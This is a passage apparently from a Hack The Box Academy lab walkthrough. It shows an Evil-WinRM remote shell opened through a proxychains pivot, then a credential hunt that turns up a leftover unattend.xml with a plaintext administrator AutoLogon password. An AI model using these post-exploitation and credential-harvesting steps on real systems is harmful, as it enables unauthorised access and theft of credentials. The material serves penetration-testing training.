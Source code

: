 ```shell-session
Info: Establishing connection to remote endpoint

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents> hostname
ACADEMY-AEN-MS01
```

At this point, we could use this evil-winrm shell to further enumerate the domain with a tool such as PowerView. Keep in mind that we'll need to use a PSCredential object to perform enumeration from this shell due to the [Kerberos "Double Hop" problem](https://academy.hackthebox.com/module/143/section/1573). Practice this technique and see what other AD enumeration tools you may be able to use in this way.

Back to the task at hand. Our user is not a local admin, and `whoami /priv` does not turn up any useful privileges. Looking through the `Windows Privilege Escalation` module, we don't find much interesting so let's hunt for credentials. After some digging around, we find an `unattend.xml` file leftover from a previous installation.

```powershell
*Evil-WinRM* PS C:\Users\backupadm\desktop> cd c:\panther

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\panther> dir


    Directory: C:\panther


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2022   2:17 PM           6995 unattend.xml
```

Let's check to see if it contains any passwords, as they sometimes do.

```powershell
*Evil-WinRM* PS C:\panther> type unattend.xml

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-International-Core" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <InputLocale>de-de</InputLocale>
            <SystemLocale>de-de</SystemLocale>
            <UILanguage>de-de</UILanguage>
            <UILanguageFallback>de-de</UILanguageFallback>
            <UserLocale>de-de</UserLocale>
        </component>
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <OOBE>
                <HideEULAPage>true</HideEULAPage>
                <HideWirelessSetupInOOBE>true</HideWirelessSetupInOOBE>
                <NetworkLocation>Work</NetworkLocation>
                <ProtectYourPC>1</ProtectYourPC>
            </OOBE>
            <AutoLogon>
                <Password>
                    <Value>Sys26Admin</Value>
                    <PlainText>true</PlainText>
```